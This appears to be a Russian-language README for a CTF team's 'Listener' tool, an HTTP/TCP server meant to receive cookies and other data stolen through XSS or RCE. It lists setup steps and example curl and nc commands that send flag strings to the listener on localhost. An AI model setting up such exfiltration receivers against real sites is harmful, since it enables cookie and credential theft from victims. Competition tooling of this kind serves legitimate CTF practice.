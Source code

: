 # Listener

HTTP/TCP листенер для кражи кук, других чувствительных данных от XSS и RCE. 
## Установка
>git clone git@github.com:OmskHackers/listener.git
>docker-compose up -d

## Возможности
- Сохранение параметров в URL 
- Сохранение загружаемых файлов 
- Сохранение сырых данных передаваемых в POST запросах
- Сохранение любых сырых данных переданных на сокет сервер (1337 порт)
 ##  Как работает ?
 >curl http://localhost:4444/?FLAG1234567890=
 >curl -X POST --data "FLAG1234567890=" http://localhost:4444/
 > echo "FLAG1234567890=" | nc -q 1 localhost 1337
## TODO
- Добавить экстрактор флагов
- Оптимизировать экстрактор, чтобы не читал повторные output файлы
- Настроить возможность
- Прикрутить клиент фермы к экстрактору, чтобы автоматизировать отправку флагов
